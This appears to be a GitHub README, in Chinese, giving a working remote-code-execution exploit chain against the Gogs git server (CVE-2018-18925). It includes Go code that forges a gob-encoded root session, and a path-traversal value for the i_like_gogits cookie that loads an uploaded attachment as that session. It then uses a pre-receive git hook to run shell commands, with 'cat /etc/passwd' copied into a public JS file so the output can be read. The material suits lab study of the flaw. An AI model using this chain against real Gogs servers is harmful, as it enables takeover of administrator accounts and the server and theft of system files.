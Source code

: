 # Gogs_RCE


## 0x01 前台注册普通账号

![](./test.jpg)

## 0x02 go 编译伪造管理员session

`go run main.go`

```
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data,0777)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}

```
![](./data.png)
会在当前目录生成data文件

```
root@kali:~/go/demo# cat readme.txt 
go run main.go 

0eff81040102ff82000110011000005aff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c060004726f6f74
root@kali:~/go/demo# cat data |xxd
00000000: 0eff 8104 0102 ff82 0001 1001 1000 005a  ...............Z
00000010: ff82 0003 0673 7472 696e 670c 0a00 085f  .....string...._
00000020: 6f6c 645f 7569 6406 7374 7269 6e67 0c03  old_uid.string..
00000030: 0001 3106 7374 7269 6e67 0c05 0003 7569  ..1.string....ui
00000040: 6405 696e 7436 3404 0200 0206 7374 7269  d.int64.....stri
00000050: 6e67 0c07 0005 756e 616d 6506 7374 7269  ng....uname.stri
00000060: 6e67 0c06 0004 726f 6f74                 ng....root
root@kali:~/go/demo# 

```

## 0x03 普通用户发布新版本

![](./new_release.png)

附件：
`http://10.20.24.189:18080/attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

设置cookie字段 i_like_gogits 为 新版本 文件路径，拼接前2个字母
例如：

`attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

`i_like_gogits=../attachments/c/5/c58bf501-7163-44a8-b77d-79c8396609bb`

## 0x04 页面刷新，变成root管理员账号
![](./cookie.png)

修改以后

![](./cookie-admin.png)

root账号

![](./root.png)

## 0x05 仓库设置，管理Git钩子， 钩子名称 pre-receive 

当服务器为linux平台时，直接写shell脚本，执行命令。

命令触发在仓库上传新文件后。


## 0x06 命令回显-管理面板-应用配置管理-静态文件根目录

通过静态文件根目录 得到绝对路径：
例如 
```
静态文件根目录    /app/gogs
```
![](./path.png)

shell 脚本内容：

`cat /etc/passwd > /app/gogs/public/js/1.js`

![](./git_bash.png)

网站回显路径：

`https://127.0.0.1:3000/js/1.js`

![](./passwd.png)


## 参考链接：

`Cannot execute custom hooks on Windows #4255 `

https://github.com/gogs/gogs/issues/4255

https://github.com/vulhub/vulhub/tree/master/gogs/CVE-2018-18925
